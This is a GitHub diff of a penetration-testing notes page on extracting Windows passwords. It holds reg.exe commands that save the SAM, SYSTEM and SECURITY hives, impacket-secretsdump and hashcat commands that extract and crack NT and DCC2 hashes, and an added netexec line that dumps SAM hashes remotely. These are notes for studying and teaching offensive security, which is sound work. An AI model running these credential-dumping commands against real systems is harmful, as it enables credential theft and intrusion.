

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Passwords/3_extracting_passwords_windows.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

`````diff
--- a/Passwords/3_extracting_passwords_windows.md
+++ b/Passwords/3_extracting_passwords_windows.md
@@ -12,13 +12,13 @@ Registry hives
 | HKLM\SYSTEM      | Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.                        |
 | HKLM\SECURITY    | Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more. |
 
-To decrypt SAM, just use sam and system.
+If we're only interested in dumping the hashes of local users, we need only HKLM\SAM and HKLM\SYSTEM
 
 **Using reg.exe to copy registry hives**
 ````
-C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
-C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
-C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
+> reg.exe save hklm\sam C:\sam.save
+> reg.exe save hklm\system C:\system.save
+> reg.exe save hklm\security C:\security.save
 ````
 **File Directory**
 ````
@@ -31,8 +31,15 @@ Copy to local machine
 $ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
 $ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
 
+Dumping local SAM hashes (uid:rid:lmhash:nthash)
+
 $ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
 $ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
+````
+
+**Dump Sam Remote**
+````
+$ netexec smb <IP> --local-auth -u <user> -p <password> --sam
 ````
 
 **DPAPI**
`````
Also changed, not shown: other parts of Passwords/3_extracting_passwords_windows.md (+120 -1 lines).
